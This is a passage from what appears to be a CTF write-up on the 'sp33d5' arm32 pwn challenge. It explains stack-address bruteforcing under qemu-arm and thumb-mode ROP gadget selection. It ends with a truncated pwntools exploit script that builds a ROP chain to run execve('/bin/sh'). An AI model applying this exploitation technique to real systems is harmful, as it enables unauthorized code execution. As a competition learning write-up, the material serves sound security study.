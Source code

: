 Then to upload the exploit to remote, I used the same method as the one in [this blog](https://blingblingxuanxuan.github.io/2023/02/06/230206-rwctf2023-digging-into-kernel-3/#%E7%B2%BE%E7%AE%80ELF)    


## sp33d5
The program is a statically-linked arm32 program. It has a stack overflow and data overflow. At first, I tried to data overflow into the stderr structure on data segment and use the same method as [house of apple2](https://bbs.kanxue.com/thread-273832.htm). However, the program doesn't link a system function, and we don't have good stack pivoting gadgets.    

Working with teammate k4ra5u, we tried stack overflow, but it will cover the pointer on stack, which determines where to write the next number.   

Then we were stuck until the end of the CTF. sad  
Afterwards, we checkout the messages on discord, and found that we can bruteforce the stack address on remote!! The stack address is the same on every run locally, so my best guess is that it has something to do with the implementation of qemu-arm, being different with the version and such. Also this is a 32-bit program, so the cost of bruteforcing is not that high.     

When I was constructing the rop payload, I found it hard to find a "syscall" gadget. I asked k4ra5u for it, and he gave the tip of adding `--thumb` to the ROPgadget command. I was like "wow, I didn't know that".    

Also encountered a problem when using the gadget `0x00019b10 : pop {r0, r1, r2, ip, sp, pc}`, it will give me a sigkill signal at the 0x00019b10, and the regs are all not pop-ed to their new values.    
[this documentation](https://developer.arm.com/documentation/dui0489/e/arm-and-thumb-instructions/memory-access-instructions/push-and-pop) says that the pop instruction will not pop anything into sp so that is where the sigkill probably comes from.    

Then a good thing, the r2 reg is 0 so we don't need to pop it. Thus, we can use the gadget `0x0003f114 : pop {r0, r1, pc}` which is quite nice.   

Also a tip, when we have to jump to a thumb gadget from a arm gadget, we need to add 1 to the address of the thumb gadget.    

### exp

```py
from pwn import*
context(log_level = "debug", os = "linux")
p = process(["qemu-arm","-g","1234","./sp33d5_patched"])
# do stack overflow
stack_addr = 0x407ffd4c # TODO
#ropchain
pop_r0_r1_r2 = 0x00019b10 # 0x00019b10 : pop {r0, r1, r2, ip, sp, pc}
pop_r4_r6_r7 = 0x48638 # pop {r4, r6, r7, fp, ip, lr, pc}
syscall = 0x00027DE7
pop_r0_r1_pc = 0x0003f114 # **r2 不用设置，一开始就是0** 0x0003f114
binshell_addr = stack_addr - 0x10 # TODO 
stack_addr_zero = stack_addr + 0x50 # TODO
ropchain = [1, 0xb, pop_r0_r1_pc, binshell_addr, stack_addr_zero, syscall, 0]
for i in range(17):
    if i%2 == 0:
        p.recvuntil("num: ")
        p.sendline(str(0x6e69622f)+"\x00") # /bin/sh\x00
    else:
        p.recvuntil("num: ")
        p.sendline(str(0x68732f)+"\x00")

p.recvuntil("num: ")
p.sendline(str(stack_addr) + "\x00")
for i in range(2):
    p.recvuntil("num: ")
    p.sendline("1" + "\x00")

for i in ropchain:
```